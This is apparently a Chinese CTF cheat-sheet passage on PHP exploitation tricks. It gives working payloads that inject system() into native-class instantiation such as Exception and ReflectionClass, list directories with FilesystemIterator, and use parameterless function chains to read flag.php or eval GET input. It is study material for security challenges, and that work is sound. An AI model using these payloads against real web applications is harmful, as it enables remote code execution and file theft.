 ## 不含字母数字的函数

`_()` 为 gettext() 别名, 类似于 echo 输出

[https://www.php.net/manual/zh/function.gettext](https://www.php.net/manual/zh/function.gettext)

[https://www.cnblogs.com/lost-1987/articles/3309693.html](https://www.cnblogs.com/lost-1987/articles/3309693.html)

```php
var_dump(call_user_func(call_user_func("_", "get_defined_vars")));
```

以上命令可以返回所有已定义变量

## 原生类列目录/RCE

一般都是 `echo new $v1($v2('xxx'))` 或者 `eval($v('ctfshow'))` 的形式, 有时候可以跳出来执行其它代码

ReflectionClass 和 Exception 里面可以执行其它函数

FilesystemIterator 列目录

[https://www.php.net/manual/zh/filesystemiterator.construct.php](https://www.php.net/manual/zh/filesystemiterator.construct.php)

```php
new Exception(system('xx'))
new ReflectionClass(system('xx'))
new FilesystemIterator(getcwd())
new ReflectionClass('stdClass');system()//
```

## 无参数函数读文件/RCE

无参数函数指形如 `a(b(c()))` 这种不需要参数或者只需要一个参数, 并且对应的参数可以通过另一个函数的返回值来获取的函数

例如在当前目录仅存在 index.php flag.php 的情况下, 无参数读取 flag.php 的内容

```php
show_source(next(array_reverse(scandir(pos(localeconv())))));
```

或者是配合 get 传参进行 rce

```php
eval(end(current(get_defined_vars())))
```

[https://www.freebuf.com/articles/system/242482.html](https://www.freebuf.com/articles/system/242482.html)

[https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE](https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE)

## 静态调用方法

两种方式
